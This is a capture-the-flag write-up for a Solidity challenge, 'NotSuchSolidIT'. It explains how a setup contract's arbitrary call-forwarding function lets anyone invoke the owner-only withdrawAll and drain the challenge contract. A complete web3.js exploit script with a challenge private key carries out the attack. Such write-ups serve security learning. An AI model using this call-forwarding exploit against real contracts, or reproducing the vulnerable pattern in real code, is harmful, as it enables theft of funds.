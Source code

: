 # NotSuchSolidIT - web3

## Challenge

We get one challenge contract and its address, and want to get all value of it out of the contract. We also receive a address (including private key) on the chain which we can use to sign transactions.

### Challenge.sol

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.18;
contract Challenge {

	address payable owner;
    
	constructor() payable {
		owner = payable(msg.sender); 
	}

	modifier onlyOwner {
		require(msg.sender == owner);
		_;
	}
	
	function getBalance() public view returns (uint){
		return address(this).balance;
	}
	
	function withdrawAll(address payable _to) public onlyOwner {
		_to.transfer(address(this).balance);
	}
	
	function destroy() public onlyOwner {
		selfdestruct(owner);
	}
}
```

### Setup.sol

We also get the setup contract that was used ot deploy the chall, as well as it's address.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;
import "./Challenge.sol";

contract Setup {
	Challenge public chall;

	constructor() payable {
		require(msg.value >= 100, "Not enough ETH to create the challenge..");
		chall = (new Challenge){ value: 50 ether }();
	}

	function isSolved() public view returns (bool) {
		return address(chall).balance == 0;
	}
	
	function isAlive(string calldata signature, bytes calldata parameters, address addr) external returns(bytes memory) {
		(bool success, bytes memory data) = address(addr).call(
			abi.encodeWithSelector(
				bytes4(keccak256(bytes(signature))),
				parameters
			)
		);
		require(success, 'Call failed');
		return data;
	}
}

```


## Solution

Here the contract by itself is pretty ok. The vulnerability lies in the setup contract being able to execute functions of the challenge contract, using the isAlive() function. As the withdrawAll() only checks for the msg.sender being the owner, which the setup contract is, it can be used to call the function via the setup contract. Below this you can see an example script that exploits this vulnerability.


```js
const Web3 = require('web3');
const setupContractAbi = require('./abi_setup.json');

async function sendTransaction() {
  // create a web3 instance
  const web3 = new Web3('https://notsuchsolidit.insomnihack.ch:32833');

  // create a contract instance for the setup contract
  const setupContractAddress = '0x876807312079af775c49c916856A2D65f904e612';
  const setupContract = new web3.eth.Contract(setupContractAbi, setupContractAddress);

  // define the function to call
  const signature = 'withdrawAll(address)';
  const parameters = Buffer.from('133756e1688E475c401d1569565e8E16E65B1337', 'hex');
  const addr = '0x874f54e755ec1e2a9ea083bd6d9c89148cea34d4';
  const functionToCallabi = setupContract.methods.isAlive(signature, parameters, addr).encodeABI();

  // sign the transaction
  const privateKey = 'edbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
  const fromAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
  const nonce = await web3.eth.getTransactionCount(fromAddress);
  const gasPrice = await web3.eth.getGasPrice();
  const gasLimit = 1000000;
  const txObject = {
    from: fromAddress,
    to: setupContractAddress,
    gas: gasLimit,
    gasPrice: gasPrice,
    nonce: nonce,
    data: functionToCallabi,
  };
  const signedTx = await web3.eth.accounts.signTransaction(txObject, privateKey);
  const serializedTx = signedTx.rawTransaction;

  // send the transaction
  const receipt = await web3.eth.sendSignedTransaction(serializedTx);
  console.log('Transaction hash:', receipt.transactionHash);
}

sendTransaction();
```

Now you just need to run this script 

--> Flag
